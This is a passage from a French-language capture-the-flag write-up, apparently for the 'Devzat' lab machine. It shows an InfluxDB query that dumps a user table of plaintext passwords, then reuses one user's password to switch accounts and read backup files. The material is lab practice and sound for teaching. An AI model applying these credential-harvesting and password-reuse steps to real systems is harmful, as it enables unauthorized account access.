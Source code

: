 ```
        }
    ]
}
```

La table user est trés interessante.

```
[devzat] Insert query (exit to change db): select * from "user";
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

Aprés quelques essais nous trouvons le bon password pour l'utilisateur catherine.
> catherine woBeeYareedahc7Oogeephies7Aiseci

Nous pouvons maintenant lire les fichiers de backups de /var/backups qui nous permetterons
de comprendre comment fonctionne la commande /file de devzat-dev.
